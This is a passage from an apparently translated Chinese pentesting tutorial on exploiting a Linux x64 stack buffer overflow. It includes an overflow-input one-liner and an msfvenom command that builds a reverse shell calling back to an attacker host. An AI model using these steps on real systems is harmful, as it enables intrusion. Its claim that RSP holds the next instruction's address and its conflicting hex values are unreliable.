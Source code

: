 info registers 显示的两列告诉我们寄存器的地址，以十六进制和十进制格式显示。我们知道这里感兴趣的寄存器是 RSP，因为 RSP 将保存下一个要执行的指令的地址，由于它被损坏并被字符串 A 覆盖，导致了崩溃。让我们检查崩溃时 RSP 的内容。让我们还检查其他寄存器的内容，看看我们的输入字符串`aaaaa`写在了哪里。我们检查其他寄存器的原因是确定我们可以放置有效负载的寄存器：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/f9f906cf-df0d-4eee-945b-21c20484d401.png)

从上面的截图中，我们可以验证输入字符串 aaaa，其十六进制等价物为`0x414141`，被放置在 RSP 中，导致崩溃。有趣的是，我们还看到该字符串被放置在寄存器`r9`和`r11`中，使它们成为我们利用代码的潜在候选者。但在那之前，我们需要找出我们的 500 个字符输入中的缓冲区 RSP 何时被覆盖。如果我们得到该偏移量的确切位置，我们将设计我们的有效负载以在该偏移量处放置跳转指令，并尝试跳转到寄存器`r9`或`r11`，在那里我们将放置我们的 shell 代码。为了找出确切的偏移量，我们将使用 Metasploit 的 Ruby 模块生成一组唯一的字符组合：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/a0d20d71-f944-4adb-a3a0-d7eb0a34181b.png)

现在，由于我们将这个唯一生成的字符串放在一个名为`unique`的文件中，让我们重新运行应用程序，这次将`unique`文件内容传递给程序：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/be6e3c5f-0ba1-4c2e-b860-065a20121d5e.png)

现在，在这一点上，寄存器 RSP 的内容是`0x6f41316f`，这是十六进制。ASCII 等价物是`o1Ao`。

由于寄存器 RSP 的内容是小端格式，我们实际上需要将`0x6f31416f`转换为其 ASCII 等价物。必须注意的是，IBM 的 370 大型机，大多数[RISC](https://search400.techtarget.com/definition/RISC)架构的计算机和 Motorola 微处理器使用大端方法。另一方面，英特尔[处理器](https://whatis.techtarget.com/definition/processor)（CPU）和 DEC Alphas 以及至少一些在它们上运行的程序是小端的。

我们将再次使用 Metasploit Ruby 模块来获取这个唯一值的偏移量，以找到我们有效负载的确切位置。之后，我们应该放置跳转指令，使 RSP 跳转到我们选择的位置：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/1a1b3edf-db63-4d94-a537-46e7e3849b43.png)

因此，我们知道在地址`424`之后写入的下一个八个字节将被写入我们的`rsp`寄存器。让我们尝试写入`bbbb`，看看是否是这种情况。我们生成的有效负载将如下所示：`424*a + 4*b + 72*c`。要使用的确切命令是这个：

```py
python -c "print 'A'*424+ 'b'*4 + 'C'*72" > abc
```

现在，鉴于我们已经验证了我们可以控制寄存器 RSP，让我们尝试攻击 r9 寄存器，以容纳我们的 shell 代码。但在这样做之前，重要的是我们知道 r9 寄存器的位置。在下面的屏幕截图中，我们可以看到 r9 寄存器的内存位置是`0x7fffffffded0`，但每次程序重新加载时都会发生变化：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/858efe7d-0f3e-47f7-8aae-6487e4ed1e46.png)

有两种方法可以解决这个问题。第一种方法是通过在操作系统级别禁用动态地址更改来避免它，可以在以下屏幕截图中看到。另一种方法是找到具有`jmp r9`命令的任何指令的地址**。**我们可以在程序的整个汇编代码中搜索`jmp r9`，然后将位置的地址放入我们的寄存器 RSP，从而避免动态地址更改。我将把这留给你自己去想出并做。在本节中，让我们通过执行以下操作来禁用动态地址加载：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/f236b2f1-2a66-4009-8a3b-4b4158a2a706.png)

现在，由于我们正在使用 Kali 机器，让我们生成一个将放置在我们最终的利用代码中的反向 shell 有效负载：

```py
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.250.147 LPORT=4444  -e x64/xor ‐b "\x00\x0a\x0d\x20" -f py
```

为了找出正在测试的底层软件的常见坏字符，最成功的方法是反复试验。我通常用来找出常见的坏字符的方法是将所有唯一字符发送到应用程序，然后使用调试器，检查寄存器级别发生了哪些字符变化。发生变化的字符可以被编码和避免。

上述命令将产生以下屏幕截图：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/7cb23632-599f-497d-8950-83e4e61d739f.png)

让我们创建一个名为`exp_buf.py`的 Python 文件，并将获取的 shell 代码放入该文件中。必须注意的是，由于我们正在对有效负载进行编码，我们还需要一些字节在开头进行解码，因此我们将在开头指定一些`nop`字符。我们还将在端口`4444`上设置一个 netcat 监听器，以查看我们是否从应用程序获得了反向 shell。记住 r9 寄存器的地址；我们也将使用它：
